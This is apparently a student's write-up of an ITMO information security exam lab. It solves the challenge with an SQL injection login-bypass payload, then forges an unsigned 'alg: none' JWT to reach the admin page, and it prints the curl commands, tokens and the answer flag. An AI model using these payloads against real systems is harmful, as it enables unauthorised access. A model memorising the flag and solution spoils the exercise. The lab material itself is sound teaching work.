

# Экзаменационное задание по ИБ

## Задание

Target: `http://89.169.160.128:8080/`

Goal: get access as an admin user and submit the flag in the format `ITMO{...}`.

The assignment hints point to two topics from
[`PayloadsAllTheThings`](https://github.com/swisskyrepo/PayloadsAllTheThings):

- SQL Injection
- JSON Web Token

## Результат

Flag:

```text
ITMO{sql_injection_to_unsigned_jwt_admin}
```

## Решение

The application exposes a login form:

```html
<form method="post" action="/login">
```

First I checked that protected routes redirect anonymous users back to `/`:

```powershell
curl.exe -i http://89.169.160.128:8080/profile
curl.exe -i http://89.169.160.128:8080/admin
```

Then I tested SQL authentication bypass payloads from
[`PayloadsAllTheThings/SQL Injection/Intruder/Auth_Bypass.txt`](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/Intruder/Auth_Bypass.txt).

The useful payload was:

```sql
admin' or '1'='1'--
```

Request:

```powershell
curl.exe -i -X POST http://89.169.160.128:8080/login `
  --data-urlencode "username=admin' or '1'='1'--" `
  --data-urlencode "password=x"
```

The server returned a JWT in the `auth` cookie:

```text
Set-Cookie: auth=eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzdWIiOiIxIiwidXNlcm5hbWUiOiJzdHVkZW50IiwibmFtZSI6IklUTU8gU3R1ZGVudCIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNzgxOTc5NzcwfQ.; Path=/; HttpOnly; SameSite=Lax
```

Decoded JWT header:

```json
{"alg":"none","typ":"JWT"}
```

Decoded JWT payload:

```json
{"sub":"1","username":"student","name":"ITMO Student","role":"user","iat":1781979770}
```

Because the token uses `alg: none`, I used the JWT weakness described in
[`PayloadsAllTheThings/JSON Web Token/README.md`](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/JSON%20Web%20Token/README.md)
and changed the role to `admin` without adding a signature.

Forged payload:

```json
{"sub":"1","username":"admin","name":"ITMO Admin","role":"admin","iat":1781979770}
```

Forged JWT:

```text
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzdWIiOiIxIiwidXNlcm5hbWUiOiJhZG1pbiIsIm5hbWUiOiJJVE1PIEFkbWluIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNzgxOTc5NzcwfQ.
```

Admin request:

```powershell
curl.exe -i http://89.169.160.128:8080/admin `
  -H "Cookie: auth=eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzdWIiOiIxIiwidXNlcm5hbWUiOiJhZG1pbiIsIm5hbWUiOiJJVE1PIEFkbWluIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNzgxOTc5NzcwfQ."
```

The `/admin` page returned:

```text
ITMO{sql_injection_to_unsigned_jwt_admin}
```

## Скриншот

- Admin page with flag: [`screenshots/admin.png`](./screenshots/admin.png)


